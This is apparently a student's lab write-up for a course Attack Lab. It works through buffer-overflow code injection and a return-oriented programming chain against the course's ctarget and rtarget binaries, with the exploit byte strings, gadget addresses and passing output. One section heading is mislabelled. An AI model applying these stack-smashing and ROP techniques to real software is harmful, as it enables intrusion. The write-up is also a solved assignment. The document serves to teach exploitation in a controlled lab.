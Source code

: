 CSCI 3160 Attack Lab Writeup
Jacob Hebert, Target 417

# Phase 1
We completed the first phase as a class, this involved finding the correct memory address to exploit and sending a string the same size as the buffer to corrupt it. Doing this would corrupt the stack and crash the program. We achieved this by looking at the assembly dump of the file and determining not only the correct address, but also the correct size for the attack string. We did this by examining the `touch1` function and the `getbuf` function, both of which provided enough information for us to make the attack. My buffer was 0x18 or 24 bytes in size, so I filled the buffer with 24 bytes of zeros and completed the first phase.

# Phase 3
Phase 2 required us to inject some code into the program by overflowing the buffer and setting the program to a specific point in the code, into touch2. We then had to figure out the kind of injection needed. The first thing I did, after writing phase1’s section was realize that the buffer overflow was the same for all phases requiring ctarget, since that’s the only input that we have in the program. I created the level2 file and pasted the buffer overflow bytes  in, and picked a spot in `touch2` to start from, and I got a “Misfire!”. At least I was in the right spot!

Cookie: 0x23f306d5

Type string:Misfire: You called touch2(0x00406520)

I started by trying to follow the hints, which led me to find assembly code to inject the cookie right before the return statement in the `getbuf` function, then using the next part of the injection to put the code in the right address space for touch2 to take over. I realized quickly that I was getting nowhere with the assembly injection because I wasn’t able to get the program to run without immediately seg faulting. So I rethought my ideas and tried to reformat my attack file to actually follow the hints. 
The first part of phase 2 took me about 2 hours to realize I hit a dead end.

My friend Deep gave me some insight on how to actually complete this part of the lab, which was really simple in hindsight:

    1. Find the return address of getbuf
    2. Find the return address of touch2
    3. Inject code in the buffer to alter the value of %rdi

The cookie was the value to inject, and a movq asm command made the most sense, so
    `movq $0x23f306d5, %rdi`

I needed to translate this from text to the binary form, so running
    `as ctarget_l2_inject.s -o ctarget_l2_inject.o`
generated the needed output, which when objdumped gave:
    `48 c7 c7 d5 06 f3 23`
    `c3` is retq in asm, so that would be at the 8th byte.


    (gdb) until *0x401daa
    gdb) x/s $rsp
    (Address of register) 0x5551fa10:

Injection script:

> ```C
>/* Injection string */
>/* First 8 bytes are movq to rsi, rest to overflow getbuf */
>
>48 c7 c7 d5 06 f3 23 c3
>00 00 00 00 00 00 00 00
>00 00 00 00 00 00 00 00
>
>
>/* 0x5551fa10 = ret addr for getbuf */
>10 fa 51 55 00 00 00 00
>
>
>
>/* Address of touch2 */
>f4 1d 40 00 00 00 00 00
>```

At first the injection caused a seg fault, but it was likely caused by comments, because shortly after, I ran it again and it passed
    ```bash
        ./hex2raw < ctarget.lv2 | ./ctarget
        Cookie: 0x23f306d5
        Type string:Touch2!: You called touch2(0x23f306d5)
        Valid solution for level 2 with target ctarget
        PASS

    ```


# Phase 3

I needed to pass the cookie as a string -- so I need to translate the hex cookie to a set of ascii characters


1. We need to inject the cookie into the return address of touch3

Need to use a movq instruction to move the location of the cookie to the register at the time needed
Add 0x28 to account for buffer and size of rsp and touch3. 0x18 for the buffer, 0x8 for rsp, and 0x8 for touch3.

The new memory address is: 0x5551fa10 + 0x28 = **0x5551fa38**. This gets injected in the first line of the buffer overflow.


2. add the return address for getbuf
    `10 fa 51 55 00 00 00 00`

3. ret address for touch3
    `11 1f 40 00 00 00 00 00`

4. Translate hex to ASCII
    `32 33 66 33 30 36 64 35 00` *plus an extra byte of zeroes*

    Script:

>    ```c
>   /* movq cookie location -> rdi and retq */
>   /* 10 fa 51 55 */
>   /* 0x5551fa10 + 0x28 = 0x5551fa38 */
>
>
>   48 c7 c7 38 fa 51 55 c3
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>
>   /* retaddr of getbuf */
>   10 fa 51 55 00 00 00 00
>
>   /* retaddr of touch3 */
>   /* 0x401f11          */
>
>   11 1f 40 00 00 00 00 00
>
>   /* Hex translation of cookie */
>   32 33 66 33 30 36 64 35 00

    ```

```bash
    Cookie: 0x23f306d5
    Type string:Touch3!: You called touch3("23f306d5")
    Valid solution for level 3 with target ctarget
    PASS
    ```
With Deep's help, this took me about half an hour to complete.


# Phase 4

ROP is hard...
The first thing I did was find the gadget farm in the address space.
```bash
    objdump -d rtarget | sed -n '/start_farm/,/end_farm/p' >> farm.dump
```
This finds the entire codespace from the start to the end of the farm

Using the farm, I made some grep statements to find the patterns that I needed for execution

    /* popq %rdi , 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */

I started with these, I grepped to a spot that would have 5f or 58, for me, setval_269 had the value I needed,
it was located at c4, but 2 bytes into the address, so I had to add 2 to my inject, starting at c6.
That popped %rax from the stack.

I used that to put the cookie on the stack.

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */
I didn't know the exact 3rd byte to look for, so I used extended regex to find it somewhere in the farm, which resulted in:
    ```bash
         401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
    ```
The start of the string I wanted was one byte in, so I added 1 to the address, making my address: `d0 1f 40 00 00 00 00 00`

The last thing was to inject the return address of touch2, which was already in ctarget.lv2, so I just copy/pasted that.

ROP Attack:

>   /* Cookie: 0x23f306d5 */
>
>   /* Fill buffer to 24 bytes */
>
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   /* popq %rdi , 5f */
>   /* popq %rax, 58 -> setval_269 */
>   /* c4 = c7, 2 more places is 58 */
>   c6 1f 40 00 00 00 00 00
>
>   /* cookie */
>   d5 06 f3 23 00 00 00 00
>
>   /* movq rdi rax */
>   /* cat farm.dump | grep -E "48 89 .. c3"  */
>
>   /* 401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax */
>
>   d0 1f 40 00 00 00 00 00
>
>   /* Ret addr of touch2 */
>
>   f4 1d 40 00 00 00 00 00



```bash
    Cookie: 0x23f306d5
    Type string:Touch2!: You called touch2(0x23f306d5)
    Valid solution for level 2 with target rtarget
    PASS


    ```


Deep helped me significantly with this lab. Without him, I would not have been able to get to phase 4.

